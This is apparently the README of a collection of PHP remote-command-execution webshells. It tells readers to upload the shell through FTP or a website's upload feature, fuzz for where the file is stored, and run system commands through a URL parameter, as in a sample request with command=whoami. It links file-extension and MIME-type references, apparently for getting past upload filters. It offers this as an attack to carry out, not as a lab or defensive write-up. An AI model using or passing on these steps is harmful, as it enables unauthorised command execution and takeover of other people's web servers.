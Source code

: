 Simple PHP RCE Webshells, upload this through FTP/Website and execute it.

Resources: 
Mime Types: https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types/Common_types
File Extensions: https://fileinfo.com/filetypes/common
File Extensions v2: https://www.geeksforgeeks.org/list-of-file-formats/

#EXECUTION
1. Upload
2. Backtrack and find out where the file is stored (you may have to fuzz for it)
3. If you have found it, for example "httpx://GR1FF1N.com/files/avatars/images/webshell.php"
4. To execute you need to run the following URL: "httpx://GR1FF1N.com/files/avatars/images/webshell.php?command=whoami"
